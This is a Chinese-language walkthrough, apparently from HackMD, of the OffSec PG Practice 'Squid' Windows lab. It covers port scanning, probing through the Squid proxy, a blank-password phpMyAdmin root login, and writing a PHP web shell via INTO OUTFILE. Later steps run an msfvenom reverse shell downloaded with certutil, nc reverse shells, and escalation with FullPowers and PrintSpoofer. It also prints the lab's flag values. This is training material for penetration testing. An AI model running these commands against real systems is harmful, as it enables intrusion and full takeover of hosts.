



###### tags: `Offsec` `PG Practice` `Easy` `Windows`

# Squid
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.214.189 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.214.189:135
Open 192.168.214.189:139
Open 192.168.214.189:445
Open 192.168.214.189:3128
Open 192.168.214.189:49666
Open 192.168.214.189:49667

PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3128/tcp  open  http-proxy    syn-ack Squid http proxy 4.14
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

參考[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)，進行掃描
```
┌──(kali㉿kali)-[~/pgplay]
└─$ git https://github.com/aancw/spose.git

┌──(kali㉿kali)-[~/pgplay/spose]
└─$ python3 spose.py --proxy http://192.168.162.189:3128 --target 192.168.162.189
Using proxy address http://192.168.162.189:3128
192.168.162.189 3306 seems OPEN 
192.168.162.189 8080 seems OPEN 
```

在瀏覽器修改proxy則可進入網頁，查看`http://192.168.162.189:8080/phpmyadmin/`可使用預設帳號`root`登入(密碼空)
再去`http://192.168.162.189:8080/?phpinfo=-1`搜尋可以上傳shell的路徑



```
DOCUMENT_ROOT 	C:/wamp/www
```

在phpmyadmin裡面新增shell檔案



```
SELECT "<?php echo system($_GET['cmd']); ?>" into OUTFILE 'C:/wamp/www/shell.php' 
```

查看`http://192.168.162.189:8080/shell.php?cmd=whoami`
看起來本來就有一個shell.php?



製作reverseshell，開nc
```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.228 lport=9001 -f exe > met_9001.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

http://192.168.162.189:8080/shell.php?cmd=certutil.exe -urlcache -f http://192.168.45.228/met_9001.exe met_9001.exe
http://192.168.162.189:8080/shell.php?cmd=met_9001.exe
```

等反彈，`C:\`有一個local.txt
```
C:\>type local.txt
ccd3073711e018da88ae587d78b55496
```

翻writeup翻到這個工具，[FullPowers](https://github.com/itm4n/FullPowers/releases/tag/v0.1)我覺得棒棒!他是把`local service`的user有機會變成system，但我這邊是利用他可以打開`SeImpersonatePrivilege`權限再用Printspoofer
```
PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.228/FullPowers.exe FullPowers.exe

PS C:\Users\Public\Documents> whoami
nt authority\local service
PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.228/nc.exe nc.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002

PS C:\Users\Public\Documents> ./FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.228 9002 -e cmd" -z
```

等反彈查看權限，下載`Printspoofer`
```
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

C:\Users\Public\Documents>certutil.exe -urlcache -f http://192.168.45.228/PrintSpoofer64.exe PrintSpoofer.exe

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9003

C:\Users\Public\Documents>PrintSpoofer.exe -i -c "C:\Users\Public\Documents\nc.exe 192.168.45.228 9003 -e cmd"
```

再等反彈，去`C:\Users\Administrator\Desktop`可得proof.txt
```
C:\Users\Administrator\Desktop>type proof.txt
4af6926a34d04aca5c4c6434181eb8f5
```